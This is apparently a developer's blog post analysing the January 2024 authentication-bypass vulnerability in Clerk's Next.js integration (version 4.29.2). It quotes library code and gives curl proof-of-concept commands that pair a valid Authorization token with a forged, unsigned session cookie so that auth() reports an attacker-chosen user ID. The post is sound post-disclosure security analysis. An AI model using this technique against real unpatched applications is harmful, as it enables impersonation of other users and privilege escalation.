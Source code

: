 ```yaml
---
title: "Investigating a major security vulnerability with Clerk's Next.js integration."
description: "Figuring out how a major auth provider fucked up."
date: "2024-01-26"
---
```


On January 12th 2024, Clerk [disclosed a major security vulnerability](https://clerk.com/changelog/2024-01-12) with their Next.js integration. Clerk is an auth provider similar to Auth0 and Firebase Auth, and Next.js is a popular JavaScript framework for building websites with React. The severity was immediately obvious. It allowed malicious actors to act on behalf of other users and had a CVSS score of 9.4 (critical).

But of course they didn't immediately publicly share the exact details of the exploit. It wasn't clear how bad the vulnerability actually was either. So instead of waiting for them to release their promised postmortem, I decided to figure it out myself. I thought it would be a fun challenge since I maintain an auth library as well.

_This was written (but not published) before their [postmortem](https://clerk.com/changelog/2024-02-02) was released._

## Deep dive

Reading through the vulnerability report, the only hint I could find was that it had something to do with the internals used by `auth()` and `getAuth()`. Both of these are server APIs that return the current user.

> The vulnerability impacts applications that use a Next.js backend. Specifically, those that call `auth()` in the App Router, or `getAuth()` in the Pages Router.

After looking through the source code, I found that `auth()` just used `getAuth()` under the hood, which was initialized with `createGetAuth()`. I also looked through the commit history between the patch (`4.29.3`) and the previous release (`4.29.2`), and saw that `createGetAuth()` had been rewritten. So this looked like a good place to start.

```ts
// @clerk/nextjs@4.29.2
// node_modules/@clerk/nextjs/dist/esm/server/getAuth.js
const createGetAuth = ({ debugLoggerName, noAuthStatusMessage }) =>
	withLogger(debugLoggerName, (logger) => {
		return (req, opts) => {
			const authStatus = getAuthKeyFromRequest(req, "AuthStatus");
			// ...
			if (!authStatus) {
				throw new Error(noAuthStatusMessage);
			}
			const options = {
				// ...
			};
			if (authStatus !== AuthStatus.SignedIn) {
				return signedOutAuthObject(options);
			}
			const jwt = parseJwt(req);
			const signedIn = signedInAuthObject(jwt.payload, { ...options, token: jwt.raw.text });
			// ...
			return signedIn;
		};
	});
```

One thing sticked out to me immediately - `parseJwt()`. Here I learned Clerk uses JWT (JSON Web Token) for session tokens.

For those that don't know what a JWT is, it's a token with some JSON data (such as user ID) and a signature embedded into it. The signature allows you to verify the integrity of the JSON data using a secret key. It's become popular as it allows you to validate tokens without a database - though it of course comes with its own downsides.

But `parseJwt()` just decoded the JWT payload. Why was it not validating the signature? That... can't be it right? Surely a multimillion dollar company won't make such a dumb mistake. And of course they didn't. Reading the code again, there was an `if` statement to check the current auth status before it decoded the token. That status was stored in... the request?! Apparently the current auth status among other attributes were either directly stored in the `Request` object or as a custom header.

```ts
// @clerk/nextjs@4.29.2
// node_modules/@clerk/nextjs/dist/esm/server/utils.js
function getAuthKeyFromRequest(req, key) {
	return (
		getCustomAttributeFromRequest(req, constants.Attributes[key]) ||
		getHeader(req, constants.Headers[key]) ||
		(key === "AuthStatus" ? getQueryParam(req, constants.SearchParams.AuthStatus) : void 0)
	);
}
```

So my guess was that they were validating the token somewhere, storing the current status to the request header as `AuthStatus`, and then parsing the token again when it needed to get the user if `AuthStatus` was set to `"signed-in"`.

And that was exactly what was happening because Clerk used Next.js middleware.

Middleware allows you to run code on every request as well as modify the request/response. But unlike middleware in every other framework, in Next.js it runs on the _Edge™_ - basically a CDN that runs your code. This means the server hosting the middleware can be different from rest of your application even for the same request. You can't just pass JS objects, such as the current user, between middleware and route handlers (where `auth()` is used). Instead, you have to add custom headers to the request.

```ts
// @clerk/nextjs@4.29.2
// node_modules/@clerk/nextjs/dist/esm/server/authMiddleware.js
const authMiddleware = (...args) => {
	// ...
	return withLogger("authMiddleware", (logger) => async (_req, evt) => {
		const req = withNormalizedClerkUrl(_req);
		// ...
		// checks if authenticated
		const requestState = await authenticateRequest(req, options);
		// ...
		// set custom headers to be read by `auth()`
		return decorateRequest(req, finalRes, requestState);
	});
};
```

So at first, I thought maybe the vulnerability was that you can just send a `AuthStatus` header with a parsable, but invalid JWT. Maybe you could trick `auth()` into thinking that the token had been already validated and it would parse the token without validating it.

```bash
# Header from valid session token
HEADER="eyJhbGciOiJSUzI1NiIsImNhdCI6IkNBVCIsImtpZCI6IktJRCIsInR5cCI6IkpXVCJ9"
# { "sub": "pwned" }
PAYLOAD="eyJzdWIiOiAicHduZWQifQ"
# Random signature
FAKE_TOKEN="$HEADER.$PAYLOAD.MA"

# X-Clerk-Status: AuthStatus header
curl https://localhost:3000 \
    -H "Cookie: __session=$FAKE_TOKEN;__client_uat=1705888300" \
    -H "User-Agent": "im a browser i swear" \
    -H "X-Clerk-Auth-Status": "signed-in"
```

But again, it wasn't that simple. The middleware will set the `AuthStatus` header even for unauthenticated request so you can't manually override it.

I was stuck for a while but then realized I missed something.

```ts
// @clerk/nextjs@4.29.2
// node_modules/@clerk/nextjs/dist/esm/server/getAuth.js
const parseJwt = (req) => {
	const cookieToken = getCookie(req, constants.Cookies.Session);
	const headerToken = getHeader(req, "authorization")?.replace("Bearer ", "");
	return decodeJwt(cookieToken || headerToken || "");
};
```

`parseJwt()` reads both the `Cookie ` and `Authorization` header at the same time. **_Holy shit._**

What if you send both a valid and fake session token at the same time?

```bash
VALID_TOKEN="<VALID_SESSION>"
# Header from valid session token
HEADER="eyJhbGciOiJSUzI1NiIsImNhdCI6IkNBVCIsImtpZCI6IktJRCIsInR5cCI6IkpXVCJ9"
# { "sub": "pwned" }
PAYLOAD="eyJzdWIiOiAicHduZWQifQ"
# Random signature
FAKE_TOKEN="$HEADER.$PAYLOAD.MA"

# X-Clerk-Status: AuthStatus header
curl http://localhost:3000/user \
    -H "Authorization: $VALID_TOKEN" \
    -H "Cookie: __session=$FAKE_TOKEN"
```

```ts
import { auth } from "@clerk/nextjs";

export async function GET() {
	const { userId } = auth();
	console.log(`User ID: ${userId}`);
	// ...
}
```

What get's logged?

```
User ID: pwned
```

Bingo. All though, this was kind of an coincidence. I initially thought that the middleware validated both the `Authorization` header and cookie until it found a valid token. Looking through the source code however, it only checks the first one where a token exists - the issue was that it checked for the `Authorization` header first while `auth()` did the cookie first. Either way, this is a big yikes. A very big one. You could essentially impersonate any user with this as long as you know their user ID, which could be public information, or change roles to escalate your privilege.

If you'd like to see the exploit in action, I have a [reproduction](https://github.com/pilcrowOnPaper/clerk-nextjs-vulnerability) available on GitHub.

## Closing thoughts

Clerk has fixed this issue by passing the validated token alongside `AuhStatus` in the header, and parsing that token instead. They also worked with various hosting providers to prevent the issue on the network level.

I do think this was preventable - don't use middleware at all. Next.js middleware is just not the place to handle auth. I don't like protecting routes with middleware in general, but Next.js comes with a big downside where you can't share data between middleware and route handlers directly. Clerk's attempt to go around that issue is what exactly caused the vulnerability.
